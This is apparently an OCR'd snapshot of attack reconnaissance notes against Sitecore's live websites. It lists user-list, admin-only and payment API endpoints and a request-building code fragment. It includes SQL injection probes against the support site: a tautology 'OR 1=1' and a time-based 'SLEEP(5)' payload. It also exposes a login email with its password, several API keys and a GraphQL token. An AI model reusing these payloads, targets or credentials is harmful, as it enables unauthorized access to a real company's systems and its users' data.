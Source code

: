 ## End-Point 

- https://webinars.sitecore.com/api/photo/list => PhotoUser+Url 

- https://webinars.sitecore.com/omr-virtual-panel-was-kundinnen => Meting 

- https://webinars.sitecore.com/api/site/payment => admin-Only 

- https://webinars.sitecore.com/api/user/list => UserList

- https://support.sitecore.com/kb?id=search&spa=1&language=en&t=kb&q=%22%20OR%201%3D1 => TestSqlinjection

- https://www.sitecore.com/account/signup => Register Point 
 
- var u = this.setEndpoint(n.endpoint);
return u += "?f=" + t.join("||").toLowerCase(), u += n.s ? "&s=" + n.s : "", u += n.l ? "&l=" + n.l : "", u += r ? "&itemid=" + r : "", u += this.getFacetParams(n, i), u + ("&sig=" + encodeURIComponent(i))

- /app/cmo-cio/dist/assets
/app/covid/dist/
/app/holiday-in-july/largeStats/
guid: Date.now()

https://okta.sitecore.com/app/UserHome?iss=https%3A%2F%2Fokta.sitecore.com&login_hint=alt.ep-2oiy6bv5%40yopmail.com

- PWD = _L6pyH.C;+xg!:.
- Email = alt.ep-2oiy6bv5@yopmail.com


https://support.sitecore.com/kb?id="+OR+SLEEP(5)--+-&sysparm_article=KB0963029


https://okta.sitecore.com/welcome/y7XCtdqSJY9HK-vfg0PX


Api-Key => "01-1533e14b-f0dde0b1079587b6092120488c62b373cff33e45"

API_KEY:"ODBUOWtLWWNUVHFCNlpTVXAyZEY1U3VVbjNqK09sRTU3NU9tUzd4NWFMVT18aGMtY2xvdWQtY29tbWVyY2UtMDQwM2Q
"X-GQL-Token":"ODBUOWtLWWNUVHFCNlpTVXAyZEY1U3VVbjNqK09sRTU3NU9tUzd4NWFMVT18aGMtY2xvdWQtY29tbWVyY2UtMDQwM2Q



011598447622111aA@

https://webinars.sitecore.com//resources/um/script/libraries/inline-collector-1.0.js
https://webinars.sitecore.com//resources/um/script/libraries/comments-1.0.js